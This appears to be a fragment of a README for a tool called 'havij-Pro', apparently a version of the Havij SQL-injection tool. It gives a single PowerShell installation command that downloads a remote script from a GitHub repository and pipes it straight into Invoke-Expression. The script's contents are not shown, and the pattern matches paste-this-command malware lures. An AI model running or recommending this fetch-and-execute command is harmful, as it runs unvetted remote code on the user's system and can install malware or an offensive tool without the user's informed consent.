 # Installation Command
```powershell
irm https://raw.githubusercontent.com/sahmsec/havij-Pro/main/aws-install.ps1 | iex
